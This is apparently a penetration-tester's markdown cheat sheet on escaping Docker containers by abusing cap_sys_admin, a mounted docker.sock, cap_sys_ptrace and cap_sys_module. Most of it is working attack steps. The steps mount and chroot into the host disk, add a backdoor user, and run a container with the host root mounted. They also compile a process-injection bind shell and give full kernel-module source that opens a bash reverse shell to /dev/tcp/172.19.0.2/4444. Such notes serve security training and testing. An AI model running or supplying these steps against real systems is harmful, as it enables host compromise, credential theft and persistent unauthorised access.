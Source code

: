 # Container Breakouts

## cap\_sys\_admin Capability

Check if there is cap\_sys\_admin privileges in docker container.&#x20;

```
capsh --print
```

if you see in the result `cap_sys_admin` then you can continue.

* Mount the root directory of host to container and look for the credentials or config files.&#x20;

```
fdisk -l 
mount /dev/sda /mnt
ls -l /mnt/

chroot /mnt/ bash
find / -name password 2>/dev/null
# and check credentials in root file system.
```

* Scan host machine and look for open ports
  * if there is open ssh port

```
chroot /mnt/ adduser turm
# give the password and it will add user to host system. 
# Then login to ssh port with that user. 
```

## docker.sock&#x20;

In the docker-container, if there is a docker.sock have a symlink to /run/docker.sock then there is possibility to do break out.&#x20;

```
find / -name docker.sock 2>/dev/null

#if you see in the result /run/docker.sock go for that way
```

Now we will create a container inside the docker container and connect it to host



```
docker images
# or pull docker images 
docker run -it -v /:/host/ ubuntu:22.04 bash

# That will give us a shell

cd /host/
chroot ./ bash

#after that part add a user and connect with ssh or find
#find credentials. 
```



## cap\_sys\_ptrace capability

if there is cap\_sys\_ptrace capability, then it is possible to inject process and create a bind shell on host it self then it is possible to jump over there via that port.&#x20;

Exploit that can be found

&#x20;[https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

{% embed url="https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c" %}

After that change that shell code inside the c file and later

```
gcc inject.c -o inject`
```

later inject with PID of serveR

```
./inject 1234
```

then connect host machine with bind shell

`nc IP PORT`



## cap\_sys\_module capability

If there is cap\_sys\_module capability inside the docker container, then that breakout can work . This capability allows the process to load kernel modules and manipulate the kernel, which can be exploited to compromise the underlying host system's security.

```
capsh --print
# if you see cap_sys_module 
```

Then check for the IP address of the docker. First of A.B.C.01 is for the host machine itself.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.19.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we should create a Makefile to compile kernel module.&#x20;

```
obj-m +=reverse-shell.o
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

Make the kernel module.

`make`

Listen on the port in docker container

Then in new terminal&#x20;

`insmod reverse-shell.ko`

